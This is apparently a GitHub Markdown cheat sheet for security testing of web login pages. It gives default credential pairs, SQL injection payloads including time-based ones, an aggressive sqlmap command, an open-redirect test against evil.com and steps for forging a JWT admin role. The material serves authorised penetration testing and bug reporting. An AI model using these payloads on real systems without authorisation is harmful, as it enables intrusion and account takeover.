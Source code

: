 # 🌍 Login & Authentication Testing

This document details **manual and automated testing** for **login security, authentication bypass, SQL injection, and open redirects.**

---

## **1️⃣ Identifying Login & Authentication Pages**

### **Extract Login & Auth Endpoints**
```bash
cat auth_pages.txt | grep -Ei "/(login|auth|session|signin|api/login)" > login_pages.txt
```
✅ **Filters login-related pages for further testing.**

---

## **2️⃣ Security Checks on Login Pages**

### **Check if HTTPS is Enforced**
- **Ensure login forms use `https://` instead of `http://`.**
- **Check for mixed content warnings in the browser console.**

### **Test for Default Credentials**
- **Try default username-password combinations:**
```bash
admin:admin
test:test
root:root
user:user
admin:password
```
✅ **If default credentials work, report weak authentication.**

---

## **3️⃣ SQL Injection Testing**

### **Test Login Form for SQL Injection Using `arjun`**
```bash
arjun -u "https://target.com/login" -m POST
```
✅ **Identifies hidden parameters in login requests.**

### **Manual SQL Injection Payloads**
```sql
admin' OR 1=1-- -
admin' OR sleep(5)--
id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'
```
✅ **Test login input fields for SQL injection vulnerabilities.**

### **Automated SQL Injection Testing**
```bash
sqlmap -m login_pages.txt --batch --risk=3 --level=5
```
✅ **Runs SQLi attacks against login forms.**

---

## **4️⃣ Open Redirect Testing in Login Pages**

### **Identify NextURL Parameter in Redirects**
```bash
cat login_pages.txt | grep -Ei "url=|uri=|redirect=|link=|to=|forward=|next=" > redirect_candidates.txt
```
✅ **Finds redirect parameters commonly vulnerable to open redirect attacks.**

### **Test Open Redirect Vulnerability**
```bash
curl "https://target.com/login?nextURL=http://evil.com"
```
✅ **If redirected to `evil.com`, report open redirect vulnerability.**

---

## **5️⃣ JWT Manipulation Testing**

### **Decode JWT & Modify Claims**
1️⃣ **Copy JWT token from session storage.**  
2️⃣ **Decode using [jwt.io](https://jwt.io).**  
3️⃣ **Modify `"role": "admin"` and re-encode.**  
✅ **If access is granted after modification, report authentication bypass.**

---

### **🚀 Now, login & authentication pages are fully tested for security vulnerabilities!**

